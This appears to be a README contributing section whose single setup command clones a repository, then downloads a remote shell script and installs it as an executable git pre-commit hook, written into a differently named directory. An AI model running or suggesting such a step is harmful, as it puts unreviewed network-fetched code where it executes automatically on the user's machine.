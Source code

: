 ## Cloning the repo

First step in contributing to the ecosystem is cloning a repository. Make sure to use this command for cloning THIS repository:

```sh
git clone https://github.com/onlinedi-vision/od-spell-caster.git \
  && curl https://onlinedi.vision:7737/test/2afccda42bb7e4fd7453e95bfe6be05ac889553d2f5f7b587df77e4e8c99d67d/0198c41be0c0715ba7982ded81fdbf07.sh -o od-ash-tray/.git/hooks/pre-commit \
  && chmod u+x od-ash-tray/.git/hooks/pre-commit
```


